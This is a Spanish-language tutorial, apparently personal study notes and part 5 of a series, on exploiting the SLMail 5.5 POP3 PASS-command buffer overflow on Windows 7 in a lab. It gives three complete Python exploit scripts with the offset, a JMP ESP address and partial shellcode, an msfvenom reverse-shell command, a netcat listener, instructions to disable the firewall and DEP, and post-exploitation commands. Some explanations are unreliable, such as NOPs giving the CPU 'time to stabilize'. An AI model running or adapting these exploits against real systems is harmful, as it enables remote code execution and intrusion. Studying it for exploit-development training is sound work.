





# Buffer Overflow - Parte 5: Uso de NOPs y Desplazamiento de la Pila para interpretar el RCE

---

## 📋 Índice
- [El problema del timing](#el-problema-del-timing)
- [Solución 1: NOPs (NOP Sled)](#solución-1-nops-nop-sled)
- [Solución 2: Desplazamiento de pila](#solución-2-desplazamiento-de-pila)
- [Preparación del listener](#preparación-del-listener)
- [Ejecución del exploit completo](#ejecución-del-exploit-completo)
- [Troubleshooting](#troubleshooting)

---

## El problema del timing

### 🚫 Por qué el exploit anterior no funciona

El código de la **Parte 4** tiene un problema crítico:

```python
payload = before_eip + eip + shellcode  # ❌ Falla en la ejecución
```

### 📊 Análisis del problema



### 🔍 Causas del fallo

| Problema | Descripción | Consecuencia |
|----------|-------------|--------------|
| **Timing insuficiente** | El shellcode es complejo y extenso | CPU no procesa todas las instrucciones |
| **Alineación incorrecta** | El ESP puede apuntar a mitad de una instrucción | Desincronización de instrucciones |
| **Interferencia de registros** | El JMP ESP puede alterar el stack | Corrupción del shellcode |
| **Falta de estabilidad** | Sin buffer entre EIP y shellcode | Ejecución impredecible |

> [!warning] Síntomas comunes
> - 🔴 El programa crashea sin ejecutar el shellcode
> - 🔴 La reverse shell no se establece
> - 🔴 Immunity Debugger muestra excepciones de acceso
> - 🔴 El servicio SLMail se detiene abruptamente

---

## Solución 1: NOPs (NOP Sled)

### 🛷 ¿Qué es un NOP Sled?

**NOP** = **N**o **OP**eration (No Operación)

Un **NOP sled** (trineo de NOPs) es una secuencia de instrucciones `NOP` que:
- 🎯 No hacen nada (literalmente)
- ⏱️ Dan tiempo al CPU para estabilizarse
- 🎿 Crean un "tobogán" que desliza la ejecución hasta el shellcode
- 🛡️ Aumentan la superficie de entrada (más tolerancia a errores de alineación)

### 📊 Representación del OpCode NOP

| Instrucción | OpCode | Hexadecimal | Función |
|-------------|--------|-------------|---------|
| `NOP` | 0x90 | `\x90` | No hace nada (1 ciclo de CPU) |

---

### 🔧 Implementación en el exploit

```python name="exploit_with_nops.py"
from struct import pack
import socket
import sys

# === CONFIGURACIÓN ===
IP_ADDRESS = "192.168.1.5"
PORT = 110
OFFSET = 2606

# === CONSTRUCCIÓN DEL PAYLOAD ===
BEFORE_EIP = b"A" * OFFSET
EIP = pack("<L", 0x5f4c4d13)  # JMP ESP en SLMFC.DLL

# Shellcode (ejemplo - reemplazar con msfvenom real)
SHELLCODE = (
    b"\xda\xcd\xd9\x74\x24\xf4\xba\x4e\x9f\x3a\x7c\x5b"
    b"\x33\xc9\xb1\x52\x31\x53\x17\x03\x53\x17\x83\x29"
    # ...  (resto del shellcode)
)

# 🛷 NOP SLED: 16 bytes de NOPs antes del shellcode
NOPS = b"\x90" * 16

# Payload con NOP sled
PAYLOAD = BEFORE_EIP + EIP + NOPS + SHELLCODE
#         └────┬────┘  └┬┘  └─┬─┘  └───┬────┘
#           Buffer    JMP    NOPs   Shellcode
#                     ESP

def exploit(ip, port):
    """Explota SLMail 5.5 con NOP sled"""
    try:
        print(f"\n[*] Conectando a {ip}:{port}...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        
        banner = s.recv(1024)
        print(f"[+] Banner: {banner. decode().strip()}")
        
        s.send(b"USER test\r\n")
        response = s.recv(1024)
        print(f"[+] USER:  {response.decode().strip()}")
        
        print(f"[! ] Enviando payload...")
        print(f"    - Offset: {OFFSET} bytes")
        print(f"    - EIP: 0x5f4c4d13 (JMP ESP)")
        print(f"    - NOPs: {len(NOPS)} bytes (NOP sled)")
        print(f"    - Shellcode:  {len(SHELLCODE)} bytes")
        print(f"    - Total: {len(PAYLOAD)} bytes")
        
        s.send(b"PASS " + PAYLOAD + b"\r\n")
        s.close()
        
        print("[+] Payload enviado ✓")
        print("[*] Verifica tu listener de netcat")
        
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == '__main__':
    if len(sys. argv) > 1:
        IP_ADDRESS = sys.argv[1]
    
    print("="*60)
    print("  SLMail 5.5 Buffer Overflow - Con NOP Sled")
    print("="*60)
    exploit(IP_ADDRESS, PORT)
```

---

### 📊 Estructura del payload con NOPs

```
┌─────────────────────────────────────────────────────────┐
│  BEFORE_EIP (2606 bytes "A")                            │
│  ┌───────────────────────────────────────────────┐      │
│  │ A A A A A A A A A A A A A A A A A A A A ...     │      │
│  └───────────────────────────────────────────────┘      │
├─────────────────────────────────────────────────────────┤
│  EIP (4 bytes - JMP ESP)                                │
│  ┌───────────────────────────────────────────────┐      │
│  │ \x13\x4d\x4c\x5f  (0x5f4c4d13 Little Endian)  │      │
│  └───────────────────────────────────────────────┘      │
├─────────────────────────────────────────────────────────┤
│  🛷 NOP SLED (16 bytes)                                 │
│  ┌───────────────────────────────────────────────┐      │
│  │ \x90 \x90 \x90 \x90 \x90 \x90 \x90 \x90 ...    │      │
│  └───────────────────────────────────────────────┘      │
├─────────────────────────────────────────────────────────┤
│  SHELLCODE (reverse shell)                              │
│  ┌───────────────────────────────────────────────┐      │
│  │ \xda\xcd\xd9\x74\x24\xf4...                     │      │
│  └───────────────────────────────────────────────┘      │
└─────────────────────────────────────────────────────────┘
```

---

### 🎯 Ventajas del NOP Sled



| Ventaja | Descripción |
|---------|-------------|
| **Tolerancia a errores** | Si el ESP no apunta exactamente al inicio, los NOPs absorben el error |
| **Estabilidad** | Da tiempo al CPU para prepararse |
| **Debugging más fácil** | Los NOPs son visibles en Immunity Debugger |
| **Compatibilidad** | Funciona en la mayoría de escenarios |

> [!tip] ¿Cuántos NOPs usar?
> - **Mínimo**: 8-16 bytes (lo común)
> - **Recomendado**: 16-32 bytes
> - **Máximo**: No más de 64 bytes (innecesario)
> 
> Para SLMail, **16 NOPs** son suficientes. 

---

## Solución 2: Desplazamiento de pila

### 🔧 Concepto:  SUB ESP

En lugar de usar NOPs, podemos **desplazar el Stack Pointer (ESP)** para dar espacio al shellcode. 

**Instrucción assembly:**
```assembly
SUB ESP, 0x10  ; Resta 16 bytes (0x10) al ESP
```

Esto hace que el ESP apunte **más abajo en el stack**, creando un buffer de seguridad.

---

### 🛠️ Obtener el OpCode de SUB ESP

#### Paso 1: Abrir nasm_shell

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

#### Paso 2: Convertir la instrucción

```bash
nasm > sub esp,0x10
00000000  83EC10            sub esp,0x10
```

**OpCode resultante:** `83EC10` → `\x83\xEC\x10`

---

### 📊 Comparación de operaciones en el ESP

| Instrucción | OpCode | Efecto en ESP | Uso |
|-------------|--------|---------------|-----|
| `SUB ESP, 0x10` | `\x83\xEC\x10` | ESP -= 16 bytes | Desplaza hacia abajo |
| `ADD ESP, 0x10` | `\x83\xC4\x10` | ESP += 16 bytes | Desplaza hacia arriba |
| `NOP` | `\x90` | ESP no cambia | Espera 1 ciclo |

---

### 🐍 Implementación con SUB ESP

```python name="exploit_with_sub_esp.py"
from struct import pack
import socket
import sys

# === CONFIGURACIÓN ===
IP_ADDRESS = "192.168.1.5"
PORT = 110
OFFSET = 2606

# === CONSTRUCCIÓN DEL PAYLOAD ===
BEFORE_EIP = b"A" * OFFSET
EIP = pack("<L", 0x5f4c4d13)  # JMP ESP

# Shellcode (reemplazar con msfvenom real)
SHELLCODE = (
    b"\xda\xcd\xd9\x74\x24\xf4\xba\x4e\x9f\x3a\x7c\x5b"
    # ... (resto del shellcode)
)

# 🔧 DESPLAZAMIENTO DE PILA
# Instrucción:  SUB ESP, 0x10 (desplazar ESP 16 bytes hacia abajo)
SUB_ESP = b"\x83\xEC\x10"

# Payload con SUB ESP
PAYLOAD = BEFORE_EIP + EIP + SUB_ESP + SHELLCODE
#         └────┬────┘  └┬┘  └──┬──┘  └───┬────┘
#           Buffer    JMP   Ajuste   Shellcode
#                     ESP    ESP

def exploit(ip, port):
    """Explota SLMail 5.5 con desplazamiento de pila"""
    try:
        print(f"\n[*] Conectando a {ip}:{port}...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        
        banner = s.recv(1024)
        print(f"[+] Banner: {banner.decode().strip()}")
        
        s.send(b"USER test\r\n")
        response = s. recv(1024)
        print(f"[+] USER:  {response.decode().strip()}")
        
        print(f"[!] Enviando payload...")
        print(f"    - Offset: {OFFSET} bytes")
        print(f"    - EIP: 0x5f4c4d13 (JMP ESP)")
        print(f"    - SUB ESP:  \\x83\\xEC\\x10 (desplaza -16 bytes)")
        print(f"    - Shellcode:  {len(SHELLCODE)} bytes")
        print(f"    - Total: {len(PAYLOAD)} bytes")
        
        s.send(b"PASS " + PAYLOAD + b"\r\n")
        s.close()
        
        print("[+] Payload enviado ✓")
        print("[*] Verifica tu listener de netcat")
        
    except Exception as e: 
        print(f"[-] Error: {e}")

if __name__ == '__main__': 
    if len(sys.argv) > 1:
        IP_ADDRESS = sys.argv[1]
    
    print("="*60)
    print("  SLMail 5.5 Buffer Overflow - Con SUB ESP")
    print("="*60)
    exploit(IP_ADDRESS, PORT)
```

---

### 📊 Flujo de ejecución con SUB ESP



---

### 🆚 Comparación:  NOPs vs SUB ESP

| Aspecto | NOPs (`\x90` × 16) | SUB ESP (`\x83\xEC\x10`) |
|---------|-------------------|--------------------------|
| **Tamaño** | 16 bytes | 3 bytes |
| **Eficiencia** | Menos eficiente (16 ciclos) | Más eficiente (1 instrucción) |
| **Efecto en ESP** | No modifica ESP | Desplaza ESP 16 bytes |
| **Compatibilidad** | Universal | Puede fallar si el stack es limitado |
| **Debugging** | Fácil de visualizar | Requiere análisis de registros |
| **Uso recomendado** | Exploits genéricos | Exploits optimizados |

> [!tip] ¿Cuál usar? 
> - **NOPs**: Más simple y seguro (recomendado para principiantes)
> - **SUB ESP**: Más eficiente y profesional
> 
> **Para SLMail**:  Ambos funcionan perfectamente.  Usa el que prefieras.

---

## Preparación del listener

### 🎧 Configurar netcat con rlwrap

Antes de ejecutar el exploit, debemos preparar un **listener** para recibir la reverse shell. 

#### Con rlwrap (recomendado)

```bash
rlwrap nc -nlvp 443
```

**Parámetros:**
- `rlwrap`: Añade historial y edición de línea (ver [[rlwrap]])
- `-n`: No resuelve nombres DNS
- `-l`: Modo listen (escucha)
- `-v`: Verbose (muestra conexiones)
- `-p 443`: Puerto 443 (debe coincidir con `LPORT` en msfvenom)

#### Sin rlwrap (básico)

```bash
nc -nlvp 443
```

---

### 📊 Configuración completa del entorno



---

### 🔧 Comandos paso a paso

#### En Kali (Terminal 1 - Listener)

```bash
# Preparar listener
rlwrap nc -nlvp 443
```

**Salida esperada:**
```
listening on [any] 443 ... 
```

---

#### En Kali (Terminal 2 - Exploit)

```bash
# Ejecutar exploit
python exploit.py 192.168.1.5
```

**Salida esperada:**
```
============================================================
  SLMail 5.5 Buffer Overflow - Con NOP Sled
============================================================

[*] Conectando a 192.168.1.5:110...
[+] Banner: +OK SLmail 5.5 POP3 Server Ready
[+] USER: +OK
[! ] Enviando payload...
    - Offset: 2606 bytes
    - EIP: 0x5f4c4d13 (JMP ESP)
    - NOPs: 16 bytes (NOP sled)
    - Shellcode: 351 bytes
    - Total: 2977 bytes
[+] Payload enviado ✓
[*] Verifica tu listener de netcat
```

---

#### En el listener (Terminal 1)

```bash
connect to [192.168.1.100] from (UNKNOWN) [192.168.1.5] 1234
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.   All rights reserved.

C:\Program Files\SLmail>
```

✅ **¡Reverse shell exitosa!**

---

## Ejecución del exploit completo

### 🎯 Exploit final (versión profesional)

```python name="exploit_final.py"
#!/usr/bin/env python3
"""
SLMail 5.5 POP3 Buffer Overflow Exploit
Target: Windows 7 (32-bit)
Vulnerability:  PASS command overflow
Author: [Tu nombre]
"""

from struct import pack
import socket
import sys
import time

# === CONFIGURACIÓN ===
IP_ADDRESS = "192.168.1.5"
PORT = 110
OFFSET = 2606
LHOST = "192.168.1.100"  # IP de tu Kali
LPORT = 443

# === CONSTRUCCIÓN DEL PAYLOAD ===
BEFORE_EIP = b"A" * OFFSET
EIP = pack("<L", 0x5f4c4d13)  # JMP ESP en SLMFC. DLL

# Shellcode generado con msfvenom
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 \
#          -f py -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread
SHELLCODE = (
    b"\xda\xcd\xd9\x74\x24\xf4\xba\x4e\x9f\x3a\x7c\x5b"
    b"\x33\xc9\xb1\x52\x31\x53\x17\x03\x53\x17\x83\x29"
    b"\xfc\x4a\x96\x31\xea\x08\x59\xc9\xeb\x6d\xd0\x2c"
    # ... (resto del shellcode real de msfvenom)
)

# 🛷 Opción 1: NOP Sled (recomendado)
NOPS = b"\x90" * 16
PAYLOAD = BEFORE_EIP + EIP + NOPS + SHELLCODE

# 🔧 Opción 2: SUB ESP (alternativa)
# SUB_ESP = b"\x83\xEC\x10"
# PAYLOAD = BEFORE_EIP + EIP + SUB_ESP + SHELLCODE

def banner():
    """Muestra banner del exploit"""
    print("\n" + "="*60)
    print("  SLMail 5.5 POP3 Buffer Overflow Exploit")
    print("  Target:  PASS command (port 110)")
    print("="*60)
    print(f"  Target IP:    {IP_ADDRESS}")
    print(f"  Target Port: {PORT}")
    print(f"  Reverse to:   {LHOST}:{LPORT}")
    print("="*60 + "\n")

def exploit(ip, port):
    """
    Explota buffer overflow en SLMail 5.5
    
    Args:
        ip (str): IP de la víctima
        port (int): Puerto POP3 (110)
    """
    try:
        print(f"[*] Conectando a {ip}:{port}...")
        s = socket.socket(socket. AF_INET, socket. SOCK_STREAM)
        s.settimeout(5)
        s.connect((ip, port))
        
        # Recibir banner
        banner_resp = s.recv(1024)
        print(f"[+] Banner:  {banner_resp.decode().strip()}")
        
        # Enviar USER
        s.send(b"USER test\r\n")
        user_resp = s.recv(1024)
        print(f"[+] USER: {user_resp.decode().strip()}")
        
        # Enviar PASS con payload
        print(f"\n[!] Enviando payload malicioso...")
        print(f"    ├─ Offset:      {OFFSET} bytes")
        print(f"    ├─ EIP:        0x5f4c4d13 (JMP ESP)")
        print(f"    ├─ NOPs:       {len(NOPS)} bytes")
        print(f"    ├─ Shellcode:  {len(SHELLCODE)} bytes")
        print(f"    └─ Total:      {len(PAYLOAD)} bytes\n")
        
        s. send(b"PASS " + PAYLOAD + b"\r\n")
        s.close()
        
        print("[+] Payload enviado exitosamente ✓")
        print("\n[*] Esperando conexión de reverse shell...")
        print(f"[*] Verifica tu listener en puerto {LPORT}")
        print("[*] Comando:  rlwrap nc -nlvp 443\n")
        
    except socket.timeout:
        print("[-] Timeout: La víctima no responde")
    except ConnectionRefusedError:
        print("[-] Conexión rechazada: ¿SLMail está corriendo?")
    except Exception as e:
        print(f"[-] Error: {e}")

def main():
    """Función principal"""
    global IP_ADDRESS, PORT
    
    if len(sys. argv) > 1:
        IP_ADDRESS = sys.argv[1]
    if len(sys.argv) > 2:
        PORT = int(sys.argv[2])
    
    banner()
    exploit(IP_ADDRESS, PORT)

if __name__ == '__main__': 
    try:
        main()
    except KeyboardInterrupt:
        print("\n[!] Exploit cancelado por el usuario")
        sys.exit(0)
```

---

### 🚀 Ejecución completa

```bash
# Terminal 1: Preparar listener
rlwrap nc -nlvp 443

# Terminal 2: Ejecutar exploit
python exploit_final.py 192.168.1.5
```

---

### 📊 Flujo completo del ataque

```mermaid
sequenceDiagram
    participant K as Kali (Atacante)
    participant N as Netcat Listener
    participant E as Exploit Script
    participant S as SLMail (Víctima)
    participant W as Windows 7
    
    K->>N:  rlwrap nc -nlvp 443
    Note over N: Esperando conexión... 
    
    K->>E: python exploit.py
    E->>S: USER test
    S->>E: +OK
    E->>S: PASS + Payload (BOF)
    S->>S: Buffer overflow
    S->>S: EIP = 0x5f4c4d13
    S->>S: JMP ESP (FFE4)
    S->>S: Ejecuta NOPs
    S->>S:  Ejecuta shellcode
    S->>N: Reverse shell TCP 443
    N->>K: ✅ Shell establecida
    K->>W: whoami, ipconfig, etc.
    
    style S fill:#ffcccc
    style N fill:#90EE90
```

---

## Troubleshooting

### 🔍 Problemas comunes y soluciones

| Problema | Causa posible | Solución |
|----------|---------------|----------|
| **No llega la shell** | Firewall de Windows activo | Deshabilitar firewall |
| **SLMail crashea sin shell** | Badchars en el shellcode | Regenerar con msfvenom `-b '\x00\x0a\x0d'` |
| **Conexión rechazada** | SLMail no está corriendo | Reiniciar servicio SLMail |
| **Access violation** | Dirección JMP ESP incorrecta | Verificar con `!mona find` |
| **Shellcode no ejecuta** | Falta NOPs o SUB ESP | Añadir `\x90` × 16 antes del shellcode |

---

### 🐛 Debugging en Immunity Debugger

#### Verificar el flujo de ejecución

1. **Abrir Immunity Debugger**
2. **Adjuntar al proceso SLMail** (File → Attach → SLmail.exe)
3. **Presionar F9** para ejecutar
4. **Enviar el exploit**
5. **Cuando crashee**, verificar: 

```
EIP = 0x5f4c4d13  ✓ (JMP ESP)
ESP = 0x019FFA30  ← Dirección del shellcode
```

6. **Follow in Dump** el ESP (click derecho → Follow in Dump)
7. Deberías ver: 
   - `90 90 90 90 90 90 90 90... ` (NOPs)
   - Seguido del shellcode

---

### 🔧 Validar el shellcode

```bash
# Regenerar shellcode limpio
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         --platform windows \
         -a x86 \
         -f py \
         -e x86/shikata_ga_nai \
         -b '\x00\x0a\x0d' \
         EXITFUNC=thread
```

---

### 📋 Checklist final

- [ ] Listener de netcat corriendo en el puerto correcto
- [ ] IP de LHOST en el shellcode coincide con tu Kali
- [ ] Puerto LPORT coincide con el listener
- [ ] Firewall de Windows deshabilitado
- [ ] DEP deshabilitado en Windows 7
- [ ] SLMail corriendo y adjuntado a Immunity (opcional)
- [ ] Bad characters excluidos en msfvenom
- [ ] Dirección JMP ESP válida (0x5f4c4d13)
- [ ] NOPs o SUB ESP incluidos en el payload

---

## 💡 Conceptos clave

> [!info] NOPs (0x90)
> Instrucciones que "no hacen nada".  Se usan para crear un buffer de tiempo y espacio, permitiendo que el CPU ejecute el shellcode correctamente.

> [!tip] SUB ESP vs NOPs
> - **NOPs**: Simples, universales, fáciles de debugging
> - **SUB ESP**:  Eficientes, menos bytes, más profesional
> 
> Ambos logran el mismo objetivo:   dar espacio y tiempo al shellcode. 

> [!warning] EXITFUNC=thread
> Sin este parámetro en msfvenom, el servicio SLMail se detendrá después de la primera conexión.  Con `thread`, el servicio sigue corriendo.

> [! example] Comandos post-explotación
> Una vez tengas la shell: 
> ```cmd
> whoami
> hostname
> ipconfig
> net user
> systeminfo
> ```

---

## 🎓 Resumen final



---

> [!success] 🎯 Exploit completado
> 
> ✅ **Buffer overflow** exitoso en SLMail 5.5  
> ✅ **Control del EIP** logrado  
> ✅ **Bad characters** excluidos  
> ✅ **JMP ESP** encontrado y aplicado  
> ✅ **NOPs/SUB ESP** para estabilidad  
> ✅ **Reverse shell** funcional  
> 
> **Resultado:**  Remote Code Execution (RCE) completo en Windows 7

---

## 📚 Referencias

- [[rlwrap]] - Mejorar shells con historial
- [[netcat]] - Listener para reverse shells
- [[msfvenom]] - Generador de payloads
- [[Inmunnity Debugger]] - Debugger para Windows
- [[mona (python)]] - Plugin de análisis para BOF
- [[BOF - Little Endian]] - Conversión de direcciones
- [[Reverse Shell]] - Conceptos de shells inversas

---

**Próximo paso:** Aplicar estos conocimientos en otros servicios vulnerables (Vulnserver, Brainpan, etc.)